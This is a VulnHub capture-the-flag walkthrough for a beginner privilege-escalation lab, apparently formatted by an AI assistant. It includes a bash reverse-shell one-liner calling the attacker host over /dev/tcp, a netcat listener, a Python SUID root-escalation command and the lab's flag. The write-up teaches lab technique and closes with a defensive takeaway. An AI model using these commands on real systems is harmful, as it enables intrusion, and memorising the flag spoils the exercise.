 

---

````markdown
# 🧠 VulnHub Writeup: escalate_my_privileges_1

- **Machine Name:** escalate_my_privileges_1  
- **IP Address:** `10.38.1.120`  
- **Difficulty:** Beginner – Intermediate  
- **Hash (MD5):** `d44f39d1ef8c5e3d9ef5f82a7afafe5b`  
- **Goal:** Gain root access and capture `proof.txt`

---

## 🔍 1. Enumeration

### 🔎 Nmap Scan
```bash
sudo nmap -sC -sV -oN nmap.txt 10.38.1.120
````

> *(Standard service and version detection scan. Based on results, a web server was assumed.)*

---

### 📁 Web Enumeration

#### `dirb` Scan

```bash
dirb http://10.38.1.120 /usr/share/dirb/wordlists/common.txt
```

**Discovered Paths:**

* `/cgi-bin/` — `403 Forbidden`
* `/index.html` — `200 OK`
* `/phpinfo.php` — `200 OK`
* `/robots.txt` — `200 OK`

#### `/robots.txt` Content:

```txt
User-agent: *
Disallow: /phpbash.php
```

🕵️ Interesting Discovery: `/phpbash.php`
This appears to be a **PHP web shell** and provides a great entry point.

---

## 🎯 2. Initial Access

### ✅ Web Shell Access

Navigating to:

```
http://10.38.1.120/phpbash.php
```

Provides a working web shell under the user `apache`.

---

### 🖥️ Reverse Shell

Generated a reverse shell using `msfvenom`:

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=10.38.1.121 LPORT=5555 -f raw
```

**Payload Used:**

```bash
bash -c '0<&125-;exec 125<>/dev/tcp/10.38.1.121/5555;sh <&125 >&125 2>&125'
```

**Listener Setup:**

```bash
nc -lvp 5555
```

**Successful Shell:**

```
Connection from: 10.38.1.120
User: apache (uid=48)
```

---

## 📂 3. Post-Exploitation

Listing files in the current directory:

```bash
ls
```

**Found:**

* `Credentials.txt`
* `backup.sh`
* `runme.sh`
* `test.txt`

---

## 🔐 4. Privilege Escalation

### 🔍 SUID Binary Enumeration

```bash
find / -perm -4000 -type f -ls 2>/dev/null
```

**Interesting Find:**

```bash
/usr/bin/python2.7
```

This binary has the SUID bit set and can be abused for privilege escalation.

---

### ⚡ Privilege Escalation Using Python SUID

```bash
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

**Privilege Escalation Successful:**

```bash
id
uid=0(root) gid=48(apache) groups=48(apache)
```

---

## 🏁 5. Capture the Flag

```bash
cd /root
cat proof.txt
```

**Flag:**

```
Best of Luck
628435356e49f976bab2c04948d22fe4
```

---

## ✅ Summary

| Step                    | Action                                          |
| ----------------------- | ----------------------------------------------- |
| 🔍 Enumeration          | Discovered `/phpbash.php` via `robots.txt`      |
| 🧠 Initial Access       | Gained shell access as `apache` using web shell |
| 🚀 Privilege Escalation | Abused SUID `python2.7` to get root access      |
| 🏁 Flag Captured        | `628435356e49f976bab2c04948d22fe4`              |

---

> 🛡️ **Security Takeaway:**
> This machine highlights how dangerous it is to leave debugging tools like `phpbash.php` exposed on production environments. Additionally, misconfigured SUID binaries (especially interpreters like Python) can be easily exploited for full system compromise.

---

```

Let me know if you'd like a:
- **PDF version**
- **HTML blog template**
- **Jekyll/Markdown blog post**
- **Cybersecurity portfolio format**

I'll generate and format it for you instantly.
```

